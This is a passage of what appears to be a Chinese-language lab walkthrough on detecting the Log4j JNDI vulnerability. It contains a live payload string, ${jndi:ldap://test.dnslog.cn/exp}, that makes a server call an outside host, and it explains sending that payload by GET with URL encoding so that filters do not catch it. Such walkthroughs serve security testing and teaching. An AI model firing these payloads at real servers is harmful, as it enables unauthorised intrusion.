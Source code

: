 > 
> ```
>payload=${jndi:ldap://test.dnslog.cn/exp}
> ```
> 
> ------
> 
> **为什么这样做？**
>
> 1. **绕过 POST 限制**
>   - 目标服务器 **不支持 `POST`**（返回 `405 Method Not Allowed`）。
>    - 但 **支持 `GET`**，所以我们用 `GET` 请求携带 `payload`。
> 2. **URL 编码防止干扰**
>    - `--data-urlencode` 让 `curl` 自动对特殊字符（如 `{ } : /`）进行 URL 编码，防止被服务器拦截或误解。
>3. **适用于 GET 方式传参的 Web 服务器**
>    - 一些服务器会直接把 `GET` 请求的 **查询参数** 作为日志处理，从而触发 Log4j 漏洞。
>

4.在此之前我们查看DnsLog网站的Record为空：

<img src="picture/dnslog记录为空.png" alt="dnslog记录为空" style="zoom:50%;" />
